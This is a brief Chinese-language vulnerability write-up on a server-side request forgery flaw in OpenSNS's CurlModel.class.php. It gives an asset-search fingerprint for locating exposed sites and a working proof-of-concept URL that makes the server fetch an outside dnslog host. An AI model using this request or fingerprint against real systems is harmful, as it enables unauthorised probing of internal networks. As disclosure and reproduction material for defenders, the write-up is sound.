

# OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下


存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`


构造POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

